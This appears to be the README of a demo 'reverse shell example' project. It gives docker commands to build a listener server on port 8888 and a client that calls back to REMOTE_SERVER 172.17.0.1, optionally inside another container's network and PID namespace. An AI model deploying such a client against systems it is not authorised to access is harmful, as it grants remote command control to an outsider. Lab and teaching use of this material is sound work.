 # Reverse shell example

In order to run the server:

```
cd server/
docker build . -t reverse-shell-server
docker run -p 8888:8888 -it reverse-shell-server:latest
```


To run the client:
```
cd client/
docker build . -t reverse-shell-client


# If want to just run commands inside the docker container
docker run -e REMOTE_SERVER=172.17.0.1 -itd reverse-shell-client:latest


# if want to be on the same network and PID space as other docker containers
docker run -e REMOTE_SERVER=172.17.0.1 -itd --network=container:<container-name> --pid=container:<container-name> reverse-shell-client:latest
```
